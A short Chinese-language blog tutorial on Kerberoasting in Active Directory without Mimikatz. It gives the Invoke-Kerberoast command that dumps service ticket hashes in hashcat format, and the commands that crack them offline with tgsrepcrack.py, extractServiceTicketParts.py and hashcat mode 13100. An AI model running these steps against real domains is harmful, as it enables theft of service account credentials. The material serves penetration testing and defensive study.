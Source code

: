 # Kerberoasting——没有Mimikatz如何导出票据或hash



## 讲在前面：

笔者在之前的介绍Kerberoasting问题时提到了我们还可以使用powershell脚本和empire框架上的模块来实现这个对这个漏洞利用。

[**Invoke-Kerberoast**](https://raw.githubusercontent.com/EmpireProject/Empire/24adb55b3404e1d319b33b70f4fd6b7448ca407c/data/module_source/credentials/Invoke-Kerberoast.ps1)

![](https://img-blog.csdnimg.cn/20201006163316817.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

默认情况下将输出成json格式，我们可以指定参数将输出成hashcat可用的格式

```text
Invoke-Kerberoast -AdminCount -OutputFormat Hashcat | fl   *-AdminCount标志仅标记AdminCount = 1的Kerberoasts帐户*
```

![](https://img-blog.csdnimg.cn/20201006163559885.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

使用empire模块进行获取票据hash

![](https://img-blog.csdnimg.cn/20201006165736870.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L1BpbmdfUGln,size_16,color_FFFFFF,t_70)

破解票据：

[**tgsrepcrack.py**](https://github.com/richardracko/active-directory-tools/tree/main/kerberoast)

```text
python tgsrepcrack.py /root/Desktop/passwords.txt test.kirbi
```

[**extractServiceTicketParts.py**](https://github.com/leechristensen/tgscrack)

```text
python extractServiceTicketParts.py test.kirbi
```

**hashcat**

```text
hashcat -m 13100 /tmp/hash.txt /tmp/password.list -o found.txt --force
```

